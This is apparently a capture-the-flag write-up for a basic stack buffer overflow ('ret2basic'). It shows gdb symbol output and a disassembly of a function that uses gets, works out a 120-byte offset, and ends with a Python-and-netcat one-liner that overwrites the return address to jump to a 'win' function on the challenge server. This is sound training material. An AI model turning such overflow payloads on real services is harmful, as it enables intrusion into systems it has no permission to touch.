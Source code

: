 A very basic buffer overflow -> ovewrite return address exploitation challange. Goal was to execute "win" function and display flag. Below steps to exploit binary:

1. Find "win" function address

```
gdb ret2basic

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  free@plt
0x0000000000401040  puts@plt
0x0000000000401050  fclose@plt
0x0000000000401060  setbuf@plt
0x0000000000401070  printf@plt
0x0000000000401080  rewind@plt
0x0000000000401090  fgets@plt
0x00000000004010a0  ftell@plt
0x00000000004010b0  gets@plt
0x00000000004010c0  malloc@plt
0x00000000004010d0  fseek@plt
0x00000000004010e0  fopen@plt
0x00000000004010f0  exit@plt
0x0000000000401100  _start
0x0000000000401130  _dl_relocate_static_pie
0x0000000000401140  deregister_tm_clones
0x0000000000401170  register_tm_clones
0x00000000004011b0  __do_global_dtors_aux
0x00000000004011e0  frame_dummy
0x00000000004011e6  setup
0x0000000000401215  win
0x000000000040130f  vuln
0x000000000040133c  main
0x0000000000401360  __libc_csu_init
0x00000000004013d0  __libc_csu_fini
0x00000000004013d8  _fini
(gdb)
```

2. Check vulnerable function overflow:

```
[0x00401215]> s sym.vuln
[0x0040130f]> pd
            ;-- vuln:
            0x0040130f      55             push rbp
            0x00401310      4889e5         mov rbp, rsp
            0x00401313      4883ec70       sub rsp, 0x70
            0x00401317      488d3d3c0d00.  lea rdi, qword str.Can_you_overflow_this_: ; 0x40205a ; "Can you overflow this?: "
            0x0040131e      b800000000     mov eax, 0
            0x00401323      e848fdffff     call sym.imp.printf
            0x00401328      488d4590       lea rax, qword [rbp - 0x70]
            0x0040132c      4889c7         mov rdi, rax
            0x0040132f      b800000000     mov eax, 0
            0x00401334      e877fdffff     call sym.imp.gets
            0x00401339      90             nop
            0x0040133a      c9             leave
            0x0040133b      c3             ret
```

3. Calculate buffer length:
0x70 + 0x8 = 120 - buffer length 

4. Overflow stack frame to return to address of the function win

` (python -c "print 'A'*120 + '\x15\x12\x40'") | nc challenge.nahamcon.com 30384`
